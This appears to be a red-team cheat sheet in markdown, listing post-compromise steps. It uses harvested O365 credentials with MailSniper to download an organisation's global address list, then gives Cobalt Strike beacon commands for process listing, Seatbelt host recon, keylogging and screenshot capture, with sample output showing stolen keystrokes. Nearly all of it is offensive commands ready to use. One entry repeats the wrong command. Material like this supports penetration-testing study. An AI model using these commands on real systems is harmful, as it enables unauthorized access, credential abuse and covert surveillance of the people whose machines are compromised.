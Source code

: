 

## Post Compromise - Enumeration & Reconnaissance

### Harvested O365 Credentials

#### Download Global Address List

Download global email address list with MailSniper.

* ```powershell
  PS C:\Users\Attacker> Get-GlobalAddressList -ExchHostname mail.rotta.dev 
  -UserName rotta.dev\cassy -Password FoxyLady123! -OutFile .\Desktop\gal.txt
  ```

### Host Recon - Cobalt Strike

#### List Processes

* ```powershell
  beacon> ps
  ```

#### List Tasks

* ```powershell
  beacon> ps
  ```

#### Seatbelt

* ```powershell
  beacon> execute-assembly C:\Tools\Seatbelt\Seatbelt.exe -group=system
  ```

#### Keylogger

* ```powershell
  beacon> keylogger
  [+] received keystrokes from *Untitled - Notepad by nancy

  beacon> jobs
  [*] Jobs

   JID  PID   Description
   ---  ---   -----------
   1    0     keystroke logger

  beacon> jobkill 1
  ```

#### Screenshots

* ```powershell
  printscreen               Take a single screenshot via PrintScr method
  screenshot                Take a single screenshot
  screenwatch               Take periodic screenshots of desktop
  ```
